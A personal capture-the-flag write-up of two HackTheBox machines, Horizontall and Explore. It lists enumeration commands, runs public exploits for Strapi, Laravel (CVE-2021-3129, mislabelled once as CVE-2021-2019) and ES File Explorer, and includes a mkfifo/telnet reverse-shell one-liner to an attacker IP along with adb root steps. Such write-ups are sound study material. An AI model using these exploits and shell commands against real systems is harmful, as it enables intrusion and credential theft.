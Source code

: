 ```yaml
---
layout: default
---
```


#### **Write Up : HackTheBox, TryHackMe, VulnHub**
#### [Retour](../index.md)

### **Horizontall :**
#### Port Scanning
nmap -sC -sV -p- horizontall.htb > nmap_scan.txt
```
22/tcp open  ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.5  protocol 2.0
80/tcp open  http nginx 1.14.0 (Ubuntu)
	|_http-server-header: nginx/1.14.0 (Ubuntu)
	|_http-title: horizontall
```

Note : _Vue.js_

---
#### DNS Enumeration
gobuster : 
gobuster vhost -u http://horizontall.htb/ -w subdomains-top1million-110000.txt -t 256
- Result : api-prod.horizontall.htb
---

#### Files Enumeration
gobuster dir -u http://api-prod.horizontall.htb/ -w directory-list-2.3-medium.txt -t 256
- /admin               (Status: 200) [Size: 854]
- /users                (Status: 403) [Size: 60]
- /reviews            (Status: 200) [Size: 507]
- /Reviews           (Status: 200) [Size: 507]
- /Users               (Status: 403) [Size: 60]
- /Admin              (Status: 200) [Size: 854]
- /REVIEWS         (Status: 200) [Size: 507]

Note : _STRAPI CMS_

----
3 Users who can be find on /users

```
[{"id":1,"name":"wail","description":"This is good service","stars":4,"created_at":"2021-05-29T13:23:38.000Z","updated_at":"2021-05-29T13:23:38.000Z"},

{"id":2,"name":"doe","description":"i'm satisfied with the product","stars":5,"created_at":"2021-05-29T13:24:17.000Z","updated_at":"2021-05-29T13:24:17.000Z"},

{"id":3,"name":"john","description":"create service with minimum price i hop i can buy more in the futur","stars":5,"created_at":"2021-05-29T13:25:26.000Z","updated_at":"2021-05-29T13:25:26.000Z"}]
```
___
#### Srapi CVE : [ExploitDB-link](https://www.exploit-db.com/exploits/50239)
#### Command : ``sudo python3 50239.py http://api-prod.horizontall.htb``
- Strapi CMS Version running : Remote Code Execution (RCE)
```
[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM1NDQwMDE3LCJleHAiOjE2MzgwMzIwMTd9.rzPc8u0nF9KwvXlrgt2wVEp__0WzaMU5u2QupmZ42kE
```

#### Get the first shell : 
Step 1 : Use netcat who listening on 4444

Step 2 : On the blind shell we can use a basic shell : [Example of Shells](https://book.hacktricks.xyz/shells/shells/linux).

user : strapi (CMS)

I use this one : 
-	```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 10.10.16.86 4444 >/tmp/f```
#### Get user flag
Note : connected as strapi user 
cd /home/developer : user.txt

#### netcat command to check open port (looking for port forwarding)
- ``sudo netstat -tunap``

Return of netcat command:
	```tcp        0      0 127.0.0.1:8000          0.0.0.0:*```         

Remote Port Forwarding :

LOCAL command ssh 
``ssh -i id_rsa -L 8050:127.0.0.1:8000 strapi@horizontall.htb``
_-N Do not execute a remote command.  This is useful for just forwarding ports._

And open another local terminal and get root with exploit :  [CVE-2021-2019](https://github.com/nth347/CVE-2021-3129_exploit)

``sudo python3 exploit.py http://127.0.0.1:8050 Monolog/RCE1 "cat /root/root.txt"``

[Orther write up](https://www.youtube.com/watch?v=nQvWXUIve58)


___

### **Explore :**
#### Port Scanning
```
2222/tcp  open     ssh     (protocol 2.0)
5555/tcp  filtered freeciv
36331/tcp open     unknown
42135/tcp open     http    ES File Explorer Name Response httpd
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
```


#### CVE Search
ES File Explorer Name Response httpd : CVE-2019-6447

`searchsploit ES File Explorer`

Command with the exploit : 50070.py

``python3 50070.py listFiles explore.htb``
- Return the files on the HTB

``python3 50070.py listPics explore.htb``
-	Take attention to : creds.jpg

``python3 ESFileExploIt.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg``
- Download the creds.jpg  and open it : (username & password)


#### SSH Connexion
``ssh kristi@10.10.10.247 -p 2222``

#### User flag
- /sdcard

#### Privilege Escalation
#### SSH Port Forwarding
-	Note : Not need to specify port
``ssh -p 2222 -L 1234:127.0.0.1:5555 kristi@10.10.10.247``

On orther terminal we can start connexion with :
- ``adb connect localhost:1234``
- ``adb shell``
In the shell as (shell user) we can do a simple : 
- ``su root``

/data => root.txt

[Adb Documentation](https://adbshell.com/commands/adb-root)